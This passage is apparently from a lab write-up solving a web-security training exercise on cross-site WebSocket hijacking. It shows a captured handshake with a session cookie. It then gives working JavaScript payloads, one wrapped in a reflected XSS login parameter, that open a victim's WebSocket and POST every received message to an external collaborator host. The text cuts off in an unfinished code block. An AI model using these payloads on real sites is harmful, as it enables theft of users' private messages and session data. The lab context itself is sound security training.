 ```HTTP
Origin: https://example.com
Sec-WebSocket-Version: 13
Cookie: session=cgVBy0ODyBDFlkWfUmeNWV3MxYmw3Zqw
Sec-WebSocket-Key: 7P7WtdxwGWeU6e5BMLX6PA==
```
8. Now we've confirmed arbitrary origins can be used, test CSWSH on yourself using the exploit server
9. Host the following malicious page
```html
<script>
        var ws = new WebSocket('wss://<WEBSOCKET-URL>/chat');
        ws.onopen = function start(event) {
            ws.send("READY");
        }
        ws.onmessage = function handleReplay(event) {
            fetch('https://YOUR-COLLABORATOR-IP/', {
                mode: 'no-cors',
                method: "POST",
                body: (event.data)
            });
        }
        ws.send("Text has been sent to the server");
</script>
```
10. Viewing the exploit ourselves we open a WebSocket connection
11. To target a user and bypass the SameSite restriction, we can use the vulnerable Origin server identified in step 2 and craft an XSS payload inside to perform CSWSH
```html
<script>

window.location = "https://cms-0a92009d03bba46e80ca0381004f00b6.web-security-academy.net/login?username=test<script>
var ws = new WebSocket('wss://0a92009d03bba46e80ca0381004f00b6.web-security-academy.net/chat');
ws.onopen = function start(event) {
ws.send("READY");
}
ws.onmessage = function handleReplay(event) {
fetch('https://jylvymft66m33h1nle1xqwn6ixoock09.oastify.com/', {
mode: 'no-cors',
method: "POST",
body: (event.data)
});
}
ws.send("Text has been sent to the server");
</script>&password=tes"
</script>
```
12. URL encode the entire payload that is inside the `username` parameter
```html
<script>
```